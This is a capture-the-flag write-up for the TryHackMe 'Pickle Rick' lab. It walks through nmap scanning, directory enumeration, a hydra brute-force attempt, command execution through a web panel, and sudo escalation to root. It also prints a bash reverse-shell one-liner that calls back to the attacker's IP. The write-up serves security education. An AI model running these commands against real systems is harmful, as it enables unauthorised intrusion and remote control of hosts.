 # Pickle Rick

<b>Available at:</b> [TryHackMe](https://tryhackme.com/room/picklerick)

IP: 10.10.0.135

### Initial scan

`nmap -sC -sV -oN nmap.txt -vv -p- 10.10.0.135`

`-sC` -> default scripts

`-sV` -> tell us the versions of running services

`-oN nmap.txt` -> write the ouput into a file called 'nmap.txt'

`-vv` -> set verbosity to level 2

`-p-` -> scan all ports

### Open Ports

80 meaning an http server and 22 which is ssh

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d2:12:ce:df:f7:9a:2b:9e:97:7d:c1:39:e4:3c:df:48 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC4foPbmOjfcIrXu3IJCBFcHjm0rHko8N1WsXQLum5p740xUrBgcL8tfW1HY9hkyuK+jcUX5YLSUVFvNDnMFYwD4trWdieY+XvKFQg+OApJBE3THPkiXhkU8FfiubEsQ8UD7gEEHZsxjKL8PMrsCQIxpY+r7ClLFT3KPry82IaZC4Iecq6SZLXJUCi84ZzMBV0+zrV3QH+5U3ywVmBGu9fJiEbBoHaOm51/vhNx7451U6Socojjr2md3kr1VnPYmHiECg/D7P9NG9p+UD4ZmGdjkPSxYOLVb9qW7VKh/QPro/8TKz3Xgsz2cM0VwOIwKy2LvfbkPvXjW002pPcTLGGp
|   256 1e:83:24:55:dc:41:c3:14:08:0d:f8:2b:ab:40:bf:0e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFHxx3PVd2BRCPBf2gOQtxGB8qjtct/augcA5gsxgoM9wm+rufC0o5/8TWrcZIwxYOhuVwGzGqhOTDo2Rso3oZk=
|   256 ff:20:ec:03:c6:82:02:7b:1f:5a:cd:fb:65:5c:ee:e7 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMVagIW9FgwDEjyxoefbfWBpRdA3e2hkmGs/1PAplz0M
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Web enumeration

Using my tool webctf, we can see that the page has a username in the comments!

```
webctf http://10.10.0.135/ --comments

=============
COMMENTS
=============

[+] 1 :  

    Note to self, remember username!

    Username: R1ckRul3s

```
We have a username, time to start gobuster!

`gobuster dir -u http://10.10.0.135/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 25`

running gobuster like this didnt get me much, so I ran dirbuster. Looked for extensions `.php .js .txt .py`

#### Dirbuster results

Only the interesting stuff

```
/login.php
/portal.php
/robots.txt
```
`portal.php` redirects to `login.php`.... just like a portal!

We get a login page, so time for some burp.

When sending a login request, the following parameters are sent to the server

`username=R1ckRul3s&password=p1ckl3&sub=Login`

This screams hydra to me.

`hydra -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt http://10.10.0.135 http-post-form/login.php:username=^USER^&password=^PASS^&sub=Login:Invalid username or password." -V -f -t 15`

Since this wasn't returning anything for quite sometime I looked at robots.txt 
Could this be a password? (Hint: Yes)

## What is the first ingredient Rick needs?

We have entered into `/portal.php` what could we do here? 

The welcome page has a command panel, lets try and use it!

Before that, I quickly checked out the source code, found an interesting comment
```
Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
```
This turned out to be a dead end. So i typed `ls` into the command prompt and viola

```
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```
at /Sup3rS3cretPickl3Ingred.txt we have the first ingredient, and there is also a clue.txt!

## Whats the second ingredient Rick needs?

clue: `Look around the file system for the other ingredient.` So let's do that. By trying `cd ..; pwd` I found out that we can move around. Could we maybe get a reverse shell??

`/bin/bash -i >& /dev/tcp/YOUR_THM_VPN_IP/8888 0>&1` and ran `nc -lvnp 8888` in another tab. But no luck.

After playing around a bit, I found `/home/rick/second ingredient` but the `cat` command is disabled! 
What else could we do? Well, how about a python http server. 

`which python3` shows that python3 is installed, so lets try it.


<b>WARNING dont do this! I had to restart my room instance</b>

I tried being creative, wasnt worth it :D Just use the `less` command on the file.

`cd /home/rick; python3 -m http.server --bind 10.10.0.135 8888` the site hangs, so it is running! Visit it on the correct port, and viola again. 

## Whats the final ingredient Rick needs?

Now, how can we escelate to the root user and find our last ingredient?

running `sudo -l` to see what we can do as sudo.... well

```
User www-data may run the following commands on ip-10-10-238-28.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

We can do anything. So lets try `sudo -la /root/`

Output:

```
.
..
.bashrc
.profile
.ssh
3rd.txt
snap
```
Now just `sudo less` the file, and there we go!
